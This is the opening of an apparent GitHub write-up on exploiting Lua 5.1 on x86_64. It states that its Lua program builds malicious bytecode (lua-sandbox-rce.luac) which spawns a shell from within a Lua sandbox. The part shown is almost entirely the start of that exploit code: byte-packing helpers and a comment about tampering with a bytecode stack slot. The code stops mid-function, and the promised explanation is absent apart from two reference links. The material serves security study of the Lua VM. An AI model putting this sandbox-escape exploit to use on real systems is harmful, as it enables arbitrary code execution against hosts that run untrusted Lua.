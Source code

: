 # Exploiting Lua 5.1 on x86_64

The following Lua program generates a Lua bytecode program called `lua-sandbox-rce.luac`, which in turn spawns a shell from within Lua 5.1 sandbox. The remainder of this document attempts to explain how this program works by a whirlwind tour of relevent bits of the Lua 5.1 virtual machine.

```lua
function outer()
  local magic -- In bytecode, the stack slot corresponding to this local is changed
  local function middle()
    local co, upval
    local ub1 = {[0] = -- Convert uint8_t to char[1]
      "\0", "\1", "\2", "\3", "\4", "\5", "\6", "\7", "\8", "\9", "\10", "\11", "\12", "\13", "\14",
      "\15", "\16", "\17", "\18", "\19", "\20", "\21", "\22", "\23", "\24", "\25", "\26", "\27", "\28",
      "\29", "\30", "\31", "\32", "\33", "\34", "\35", "\36", "\37", "\38", "\39", "\40", "\41", "\42",
      "\43", "\44", "\45", "\46", "\47", "\48", "\49", "\50", "\51", "\52", "\53", "\54", "\55", "\56",
      "\57", "\58", "\59", "\60", "\61", "\62", "\63", "\64", "\65", "\66", "\67", "\68", "\69", "\70",
      "\71", "\72", "\73", "\74", "\75", "\76", "\77", "\78", "\79", "\80", "\81", "\82", "\83", "\84",
      "\85", "\86", "\87", "\88", "\89", "\90", "\91", "\92", "\93", "\94", "\95", "\96", "\97", "\98",
      "\99", "\100", "\101", "\102", "\103", "\104", "\105", "\106", "\107", "\108", "\109", "\110", "\111",
      "\112", "\113", "\114", "\115", "\116", "\117", "\118", "\119", "\120", "\121", "\122", "\123", "\124",
      "\125", "\126", "\127", "\128", "\129", "\130", "\131", "\132", "\133", "\134", "\135", "\136", "\137",
      "\138", "\139", "\140", "\141", "\142", "\143", "\144", "\145", "\146", "\147", "\148", "\149", "\150",
      "\151", "\152", "\153", "\154", "\155", "\156", "\157", "\158", "\159", "\160", "\161", "\162", "\163",
      "\164", "\165", "\166", "\167", "\168", "\169", "\170", "\171", "\172", "\173", "\174", "\175", "\176",
      "\177", "\178", "\179", "\180", "\181", "\182", "\183", "\184", "\185", "\186", "\187", "\188", "\189",
      "\190", "\191", "\192", "\193", "\194", "\195", "\196", "\197", "\198", "\199", "\200", "\201", "\202",
      "\203", "\204", "\205", "\206", "\207", "\208", "\209", "\210", "\211", "\212", "\213", "\214", "\215",
      "\216", "\217", "\218", "\219", "\220", "\221", "\222", "\223", "\224", "\225", "\226", "\227", "\228",
      "\229", "\230", "\231", "\232", "\233", "\234", "\235", "\236", "\237", "\238", "\239", "\240", "\241",
      "\242", "\243", "\244", "\245", "\246", "\247", "\248", "\249", "\250", "\251", "\252", "\253", "\254",
      "\255"}
    local function ub4(x) -- Convert little endian uint32_t to char[4]
      local b0 = x % 256; x = (x - b0) / 256
      local b1 = x % 256; x = (x - b1) / 256
      local b2 = x % 256; x = (x - b2) / 256
      local b3 = x % 256
      return ub1[b0] .. ub1[b1] .. ub1[b2] .. ub1[b3]
    end
    local function ub8(x) -- Same, x64
      local b0 = x % 256; x = (x - b0) / 256
      local b1 = x % 256; x = (x - b1) / 256
      local b2 = x % 256; x = (x - b2) / 256
      local b3 = x % 256; x = (x - b3) / 256
```

[IEEE754-1985]: http://en.wikipedia.org/wiki/IEEE_754-1985#Representation_of_numbers
[vstruct]: https://github.com/ToxicFrog/vstruct/blob/master/vstruct/io/f.lua